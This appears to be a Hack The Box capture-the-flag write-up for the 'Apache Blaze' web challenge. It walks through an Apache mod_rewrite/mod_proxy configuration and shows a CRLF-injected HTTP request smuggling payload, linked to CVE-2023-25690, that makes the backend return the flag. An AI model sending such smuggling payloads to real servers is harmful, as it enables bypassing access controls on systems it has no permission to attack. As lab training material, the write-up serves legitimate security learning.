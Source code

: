 ```yaml
---
title: Apache blaze - Hack The Box
date: 2024-12-09
---
```


# Apache Blaze

![Apache Blaze - thumbnail](/ctf/hack-the-box/challenges/web/apache-blaze/thumbnail.gif){width=250px height=100px style="display: block; margin: 0 auto"}

## Challenge description

Step into the ApacheBlaze universe, a world of arcade clicky games. Rumor has it that by playing certain games, you have
the chance to win a grand prize. However, before you can dive into the fun, you'll need to crack a puzzle.

## Challenge overview

This challenge presents a web application that acts as a front-end for various arcade games. The application proxies
requests to a back-end server, which hosts the games. To access the games, users must provide the game name as a query
parameter.

![Apache Blaze - Overview](/ctf/hack-the-box/challenges/web/apache-blaze/overview.png)

## Code Review

### Apache Configuration (`httpd.conf`)

  ```apache
  RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]
  ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"
  ```

The `RewriteRule` directs requests matching `/api/games/(.*)` to the back-end at `http://127.0.0.1:8080/?game=$1`,
with the `[P]` flag indicating proxying. `ProxyPassReverse` adjusts response headers for the client.

### Python Application (`app.py`)

```python
elif game == 'click_topia':
   if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
       return jsonify({
           'message': f'{app.config["FLAG"]}'
       }), 200
   else:
       return jsonify({
           'message': 'This game is currently available only from dev.apacheblaze.local.'
       }), 200
```

The application checks if the `game` parameter is `'click_topia'` and if the `X-Forwarded-Host` header equals
`'dev.apacheblaze.local'`. If both conditions are met, it returns a JSON response containing the flag.

### Vulnerability Analysis

The vulnerability arises from the interaction between `mod_rewrite` and `mod_proxy` in Apache, which can lead to HTTP
request smuggling. Specifically, improper input validation allows crafted requests to manipulate headers, causing the
back-end to misinterpret the request.

## Exploitation Steps

1. **Craft Malicious Request:**

   To exploit this, send a request that injects a newline (`%0d%0a`) to split headers, effectively smuggling a second
   request:

   ```
   GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
   ```

   This payload manipulates the request such that the front-end server interprets it as a single request, while the
   back-end sees two separate requests.

2. **Server Interpretation:**

    - **Front-End:** Processes the request up to the injected newline, treating it as a complete request.
    - **Back-End:** Interprets the portion after the newline as a new request with the `Host` header set to
      `dev.apacheblaze.local`.

3. **Flag Retrieval:**

   The back-end application, seeing the `Host` header as `dev.apacheblaze.local` and the `game` parameter as
   `click_topia`, returns the flag in its response:

   ```json
   {
       "message": "HTB{f4k3_fl4g_f0r_t3st1ng}"
   }
   ```

## References

- [HTTP Request Smuggling - PortSwigger](https://portswigger.net/web-security/request-smuggling)
- [CVE-2023-25690 Proof of Concept](https://github.com/dhmosfunk/CVE-2023-25690-POC)
- [Apache HTTP Server Vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)